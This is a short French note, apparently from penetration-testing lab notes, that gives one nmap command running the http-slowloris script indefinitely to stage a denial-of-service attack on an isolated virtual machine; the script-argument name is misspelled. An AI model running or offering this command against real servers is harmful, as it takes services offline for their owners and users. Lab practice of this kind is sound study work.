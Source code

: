 ## Nmap : DDoS
Utilisation de NSE pour attaque DDoS envers une VM isolée

    nmap <cible> -max-parallelism <num> -Pn --script http-slowloris --script-args http-slowlorix.runforever=true
